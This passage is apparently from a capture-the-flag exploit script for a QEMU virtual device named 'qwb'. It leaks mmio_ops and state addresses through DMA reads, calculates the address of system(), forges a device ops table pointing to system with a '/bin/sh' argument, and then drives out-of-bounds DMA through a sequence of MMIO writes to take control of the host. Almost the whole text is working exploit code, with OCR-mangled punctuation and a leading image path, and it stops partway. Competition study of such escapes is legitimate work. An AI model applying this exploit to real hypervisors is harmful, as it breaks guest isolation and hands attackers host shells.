 #input(“run”)

mmio_ops = u64(data[0x900+0x48:0x900+0x48+8])

state = u64(data[0x90:0x98])–0x2440

print(“qwb mmio ops : “,hex(mmio_ops))

print(“state addr : “,hex(state))

system = mmio_ops–0xFB7D80+0x2D6BE0

target = data[:0x900+0x48]+p64(state+0xE00)+p64(state+0xE50)+data[0x900+0x50+8:0xe00]+p64(system)+p64(system)+p64(0)*3+p64(0x800000004)+p64(0)*2+p64(0x800000004)+p64(0)+b”/bin/sh\x00″

target = target+b’A’*(0xff8–len(target))

​

b64write(0x1000,0x1000,p64(3)+target)

​

writeq(base_io,2)

#info 0

writeq(base_io+8,0)

writeq(base_io+0x10,0x1000)

writeq(base_io+0x18,0)

writeq(base_io+0x20,0x1000)

writeq(base_io+0x28,0)

#info 1

#change dma_info_size

writeq(base_io+8,1)

writeq(base_io+0x10,0)

writeq(base_io+0x18,base_io)

writeq(base_io+0x20,8)

writeq(base_io+0x28,1)

​

#info 2

#read back data

writeq(base_io+8,2)

writeq(base_io+0x10,0x1008)

writeq(base_io+0x18,0x10000000000000000–0xe00)

writeq(base_io+0x20,0xff8)
